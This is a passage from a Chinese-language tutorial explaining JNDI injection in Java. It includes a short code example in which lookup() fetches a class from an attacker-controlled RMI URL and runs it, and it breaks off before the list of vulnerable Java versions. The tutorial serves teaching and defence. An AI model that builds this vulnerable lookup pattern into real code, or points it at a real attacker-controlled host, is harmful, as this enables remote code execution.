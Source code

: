 ## 三、JNDI 注入

JNDI 注入，即当开发者在定义 `JNDI` 接口初始化时，`lookup()` 方法的参数可控，攻击者就可以将恶意的 `url` 传入参数远程加载恶意载荷，造成注入攻击。

**代码示例：**

代码中定义了 `uri` 变量，`uri` 变量可控，并定义了一个 `rmi` 协议服务， `rmi://127.0.0.1:1099/Exploit` 为攻击者控制的链接，最后使用 `lookup()` 函数进行远程获取 `Exploit` 类（Exploit 类名为攻击者定义，不唯一），并执行它

```plain
package com.rmi.demo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的 uri 变量
        InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
        initialContext.lookup(uri); // 获取指定的远程对象

    }
}
```

具体攻击流程图  
[![](assets/1711556038-9b86ae55cbff042b2bff638c39213344.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194150-37535482-bda6-1.png)

JNDI 注入对 JAVA 版本有相应的限制，具体可利用版本如下：
